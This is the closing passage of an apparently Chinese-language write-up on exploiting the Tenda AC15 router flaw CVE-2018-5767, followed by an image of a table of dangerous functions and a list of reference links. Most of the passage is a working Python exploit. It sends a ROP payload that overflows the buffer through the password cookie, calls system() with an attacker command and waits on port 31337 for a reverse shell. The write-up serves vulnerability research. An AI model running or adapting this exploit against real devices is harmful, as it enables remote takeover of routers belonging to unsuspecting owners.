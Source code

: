 ```python
mov_r0_ret_r3 = libc_base + 0x40cb8
pop_r3 = libc_base + 0x18298

payload  = b'A'*(444) + b'.gif' + p32(pop_r3) + p32(system) + p32(mov_r0_ret_r3) + cmd

url = "http://192.168.2.2:80/goform/cyberangel"
cookie = {"Cookie": 'password='+payload.decode('latin1')}

def attack():
    try:
        requests.get(url, cookies=cookie)
    except Exception as e:
        print(e)

thread = Thread(target=attack)
thread.start()

p = listen(31337)
p.wait_for_connection()
log.success("getshell")
p.interactive()

thread.join()
```

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1658884235860-1287799b-b429-4d24-8987-930ad3fbe018.png)

完

# 6、危险函数表
在文章最后的最后附一张"危险函数表"，可能对你有所帮助：

![危险函数表](https://cdn.nlark.com/yuque/0/2022/png/574026/1658884504980-43497199-2145-46ce-9b1b-abb780bb2e59.png)

# 7、参考网页（PDF）
[https://p1kk.github.io/2021/03/29/iot/Tenda%20AC15%20CVE-2018-5767%20CVE-2020-10987/](https://p1kk.github.io/2021/03/29/iot/Tenda%20AC15%20CVE-2018-5767%20CVE-2020-10987/)

[https://www.fatalerrors.org/a/0dVx2Ds.html](https://www.fatalerrors.org/a/0dVx2Ds.html)

[https://p1yang.github.io/article/44df6587.html](https://p1yang.github.io/article/44df6587.html)

[https://github.com/VulnTotal-Team/IoT-vulhub/tree/master/Tenda/CVE-2018-5767](https://github.com/VulnTotal-Team/IoT-vulhub/tree/master/Tenda/CVE-2018-5767)

[以Tenda AC15 CVE-2018-5767为例进行fuzz测试 _ p1Kk's World!.pdf](https://www.yuque.com/attachments/yuque/0/2022/pdf/574026/1658884732330-64285165-93c6-4453-b93f-4a347b360037.pdf)

[Single binary simulation in firmware_ vulnerability analysis and recurrence of Tenda AC15 router CVE-2018-5767 _ CVE-2020-10987.pdf](https://www.yuque.com/attachments/yuque/0/2022/pdf/574026/1658884730069-5e50d043-caf5-4a63-94d9-79a3c3c85fdd.pdf)

[tenda路由器的漏洞发现 - p1yang.pdf](https://www.yuque.com/attachments/yuque/0/2022/pdf/574026/1658884740290-b068fe5e-c796-4607-beb9-cf3295af57dc.pdf)

[  
](https://github.com/VulnTotal-Team/IoT-vulhub/tree/master/Tenda/CVE-2018-5767)



